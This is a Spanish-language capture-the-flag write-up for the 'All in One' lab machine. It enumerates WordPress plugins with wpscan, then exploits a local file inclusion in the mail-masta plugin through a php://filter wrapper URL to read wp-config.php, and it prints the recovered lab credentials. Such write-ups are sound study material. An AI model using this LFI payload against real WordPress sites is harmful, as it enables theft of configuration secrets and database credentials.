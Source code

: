 Dentro de los wordpress hay un fichero de configuración donde se guardan credenciales de los usuarios registrados; y podemos llegar a él explotando distintas vulnerabilidades, como un LFI detectando primero un plugin vulnerable con wpscan en la máquina [[MAQUINA ALL IN ONE]]
```bash
wpscan --url http://10.10.123.20/wordpress/ -e p
```
Y encontramos este que es vulnerable:
![[Pasted image 20240613005431.png]]

Tenemos un script

```bash
https://wpscan.com/vulnerability/8609
```

![[Pasted image 20240613005442.png]]

Lo probamos en el navegador y funciona:
![[Pasted image 20240613005446.png]]

Pero si queremos obtener el fichero wp-config.php, tenemos que hacer uso de un wrapper:
```bash
http://10.10.6.206/wordpress/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=php://filter/convert.base64-encode/resource=../../../../../wp-config.php
```

![[Pasted image 20240613005503.png]]

Esto lo tenemos que decodificar ya que viene en base64:
![[Pasted image 20240613005532.png]]

Y vemos las credenciales del usuario elyana:
```bash
elyana:H@ckme@123
```
